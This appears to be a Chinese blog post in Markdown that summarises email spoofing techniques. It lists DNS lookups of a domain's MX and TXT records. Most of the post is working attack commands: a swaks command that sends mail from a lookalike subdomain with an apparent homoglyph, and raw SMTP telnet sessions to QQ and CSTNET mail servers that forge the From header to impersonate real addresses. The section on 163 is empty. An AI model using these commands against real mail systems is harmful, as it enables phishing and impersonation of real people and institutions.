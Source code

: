 ```yaml
---
layout: post
title: 伪造邮件发送技巧总结
category: 技巧
tags: 工具
keywords: swaks,email
---
```

* content
{:toc}



## 查询
```
nslookup -q=mx mesalab.cn
nslookup -q=txt mesalab.cn
```

## 发送
### 来自构造的子域名
```
swaks --to jiangph1001@163.com --from admin@qq.mesаlab.cn --body "warning" --header "Subject: Warning"
```


### 发送至qq的伪造邮件

```
telnet mx3.qq.com 25
ehlo imapmax.xyz
MAIL FROM:<admin@imapmax.xyz>
RCPT TO:<hetao_zj@foxmail.com>

DATA
From:hezhengjie@iie.ac.cn
To: hetao_zj@foxmail.com
Subject: Warning

Fake 666
.

QUIT
```

### 发送至cstnet
```
telnet mx.cstnet.cn 25
MAIL FROM:<test@imapmax.xyz>
RCPT TO:<jiangpenghui@mesalab.cn>

DATA


To: jiangpenghui@mesalab.cn
From: test@imapmax.xyz
Subject: Warning

Warning Message
.
```


### 发送至163


参考:
- [邮件伪造原理和实践](https://saucer-man.com/information_security/452.html)